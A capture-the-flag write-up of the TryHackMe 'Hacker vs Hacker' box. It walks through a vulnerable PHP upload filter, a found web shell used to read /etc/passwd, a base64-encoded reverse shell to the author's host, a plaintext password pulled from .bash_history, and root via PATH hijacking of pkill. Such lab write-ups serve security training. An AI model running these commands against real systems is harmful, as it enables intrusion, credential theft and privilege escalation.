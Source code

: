 ```yaml
---
title: Tryhackme - hacker vs hacker
date: 2022-08-20 22:19:00 +0100
categories: [TryHackMe]
tags: [TryHackMe, File Upload, PHP, bash history, pkill]
render_with_liquid: false
---
```


# recon

I added the machine’s IP to my `/etc/hosts` as `nope.thm` then ran an `nmap` scan to find `ssh` and `http` ports open

```bash
$ sudo nmap  nope.thm  -v
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

visiting the web server shows the website has a file upload functionality

![file_upload](https://user-images.githubusercontent.com/71389295/185770220-befd6c9f-27c4-4783-a1bc-42cc8ef3fd85.png)![root](https://user-images.githubusercontent.com/71389295/185770231-52ae023a-8685-4276-be61-9ae541b80af2.png)


it was giving the following result whenever I tried to upload a file

![hacked](https://user-images.githubusercontent.com/71389295/185770223-8ed83266-43a5-4f65-b157-bbefd767817f.png)

examining the upload requests shows some commented php source code in the server response

![server_response](https://user-images.githubusercontent.com/71389295/185770241-f400586c-6d2d-4dd7-b910-81ab77a8006e.png)

```php
-->Hacked! If you dont want me to upload my shell, do better at filtering!

<!-- seriously, dumb stuff:

$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}

-->
```

this is a basic vulnerable file upload code in PHP, where the programmer only checks for the presence of an allowed extension (in this case `.pdf`), if it’s found then the file is uploaded to the server with a random name under `cvs/` directory

I took a loot at `cvs/` but the listing was disabled

![listing_disabled](https://user-images.githubusercontent.com/71389295/185770224-7f21642a-c85d-4baf-b8b6-ab2a3ff75794.png)

at first I thought this is actual code for `upload.php` so I tried uploading some shell with the name `shellcode.pdf.php`, but after getting the same response from the server when trying to upload different files, I figured that the attacker uploaded his shell on the server and removed the upload functionality, the idea of this box is to think like a hacker who already made his was inside, so I checked for the presence of `nope.thm/cvs/shell.pdf.php` and …
 
![boom](https://user-images.githubusercontent.com/71389295/185770218-0fcd7549-9e80-40ca-a6d1-b6fb07b6c877.png)

then I tried to give it an argument via `cmd` parameter and it worked as well!

`http://nope.thm/cvs/shell.pdf.php?cmd=ls`

![cmd](https://user-images.githubusercontent.com/71389295/185770219-ee2fc1c4-2483-4e07-b284-5786d403e536.png)

next thing I did was getting the list of users on the system `http://nope.thm/cvs/shell.pdf.php?cmd=cat+/etc/passwd`, getting the user flag from `/home/lachlan/user.txt` (`http://nope.thm/cvs/shell.pdf.php?cmd=cat+/home/lachlan/user.txt`) then getting a reverse shell with `http://nope.thm/cvs/shell.pdf.php?cmd=echo+L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuOC4xNDQuMTQ5LzEwMDAwIDA8JjEgMj4mMQo=|base64+-d|bash`)

![reverse_connection](https://user-images.githubusercontent.com/71389295/185770226-f3cf592a-8542-4138-807f-cace491d3418.png)

there was an annoying bit about this box, which is that you couldn’t spawn a pty duo to a crontab killing all `pts`s so the moment you hit `ctrl-c` by mistake you loose your shell

```php
$ python3 -c'import pty;pty.spawn("/bin/bash")'
www-data@b2r:/var/www/html/cvs$ nope
$ :cri:
/bin/bash: line 3: :cri:: command not found
$ ps aux | grep pkill
root        1715  0.0  0.1   2608   596 ?        Ss   10:35   0:00 /bin/sh -c /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
root        1717  0.0  0.1   2608   596 ?        Ss   10:35   0:00 /bin/sh -c /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
root        1720  0.0  0.1   2608   596 ?        Ss   10:35   0:00 /bin/sh -c /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

# priv esc

I found a `.bash_history` file under `/home/lachlan/` with `lachlan`'s plaintext password

```bash
$ ls /home
lachlan
$ ls /home/lachlan -a
.
..
.bash_history
.bash_logout
.bashrc
.cache
.profile
bin
user.txt
$ cat /home/lachlan/.bash_history
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "[REDACTED]" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```

next we login to the machine via ssh, note that the `-T` is important not to create a `pts`m cause otherwise the `pkill` loop would kill our connection

```bash
$ ssh -T lachlan@nope.thm
lachlan@nope.thm's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-109-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 18 Aug 2022 11:06:20 AM UTC

  System load:  0.0               Processes:             126
  Usage of /:   25.0% of 9.78GB   Users logged in:       0
  Memory usage: 51%               IPv4 address for eth0: 10.10.37.216
  Swap usage:   0%

0 updates can be applied immediately.

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

id
uid=1001(lachlan) gid=1001(lachlan) groups=1001(lachlan)
```

now to check the persistence method that the hacker left on the machine

```bash
cat /etc/cron.d/persistence
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

two things to note here

- `/home/lachlan/bin` is the first entry on the `PATH`
- `pkill` is invoked without an absolute file path
    
    so dropping a malicious `pkill` script under `/home/lachlan/bin` should get us `root` privileges
    
![root](https://user-images.githubusercontent.com/71389295/185770284-bdad7916-eb5d-449f-96eb-269a27db8cea.png)
